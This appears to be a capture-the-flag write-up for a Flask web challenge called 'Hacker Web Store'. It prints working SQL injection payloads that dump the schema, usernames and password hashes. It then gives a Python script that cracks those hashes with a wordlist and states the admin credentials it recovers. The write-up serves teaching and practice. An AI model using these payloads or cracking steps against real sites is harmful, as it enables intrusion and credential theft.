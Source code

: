 ## Title

Hacker Web Store

## Description

Author: @Jstith

Welcome to the hacker web store! Feel free to look around at our wonderful products, or create your own to sell.

This challenge may require a local password list, which we have provided below. Reminder, bruteforcing logins is not necessary and against the rules. 

## Solution

The website title says "flask" so it might be a flask app.

Thew website has three functionalities:
- Show products(Cant interact)
- Create Product(Can interact)
- Admin Login(can interact)

It has two cookies:
- `.AspNetCore.Antiforgery.VyLW6ORzMgk`
- `session`

The following cookie: `.eJxNy0kKgDAMQNG7ZF2sAxX1MiG1KRaHqslOvLtdunzw_wMYb5YFpkibsIHg8SQtBrvkne2s0QqLpHxgICVPRbbn2g1NN7q2nzH4Sq4tKYMBzSsfZf4H8H7_RiEE.ZlBw3w.RWyIlcSY7MHoPP0H7N6L-BKb4hc`

Has the following result when decoded from base64 (URL Safe) and zlib inflate:

`{"_fresh":false,"db_path":"/home/ctf/session_databases/6e058139526c_db.sqlite","token":"6e058139526c"}`

This is a flask session cookie. Trying the characters `'` on the create product functionality we get an error in the cookie:

Payload: `name=s&price='&desc=s`
Cookie: `flask-unsign -d -c ".eJxljsFKxEAMhl8l5DK7MFjYBRfqyUMPgqjY1Yu7lLST2mI7s04iKMu-u-lN8JKPH_7kyxmbfiIZWLB8OyOoAWcWoXdGj1XOKcMYoVZSnjlqCXcPdfW8N-wf4Smn8NWpwCrSzB5OeewMgaVbw-vt_UtVw8qJ8-DcMsStb_B48f9NkSnDAeWAJchPVPoGXuTWPnp7MrMMWPY0CXsMbXMitYzFkGYuOu0LsVNjik0gpZYsFe12y7uw22yuQ9-E9ko-p1EXl6YPjrb8t4CXX5DEVYM.ZlBWqg.DDnZHUfpnHE6gjnklNT1nlf088c"`

![Alt text](image.png)

Note: One way to look at a flask session cookie is with a Python binary called flask-unsign that we can install using `pip3 install flask-unsign`

Payload to get the tables info: `', (SELECT group_concat(sql) FROM sqlite_master)); --`

![Alt text](image-1.png)

Payload to get the users from the users table: `', (SELECT group_concat(name) FROM users)); --`

![Alt text](image-2.png)

Payload to get the users from the users table: `', (SELECT group_concat(password) FROM users)); --`

![Alt text](image-3.png)

With the users and the passwords hashes we can build a simple script to iterate through the list provided(password_list.txt).

```py
from werkzeug.security import generate_password_hash, check_password_hash

hashes = [
    'pbkdf2:sha256:600000$m28HtZYwJYMjkgJ5$2d481c9f3fe597590e4c4192f762288bf317e834030ae1e069059015fb336c34',
    'pbkdf2:sha256:600000$GnEu1p62RUvMeuzN$262ba711033eb05835efc5a8de02f414e180b5ce0a426659d9b6f9f33bc5ec2b',
    'pbkdf2:sha256:600000$MSok34zBufo9d1tc$b2adfafaeed459f903401ec1656f9da36f4b4c08a50427ec7841570513bf8e57',
]

with open('password_list.txt', 'r') as file:
    for password in file.readlines():
        password = password.strip()

        cnt = 0
        for hashed in hashes:
            if check_password_hash(hashed, password):
                print(f'[FOUND] {hashed} -> {password}')
            cnt += 1
```

Credentials found: `website_admin_account:ntadmin1234`

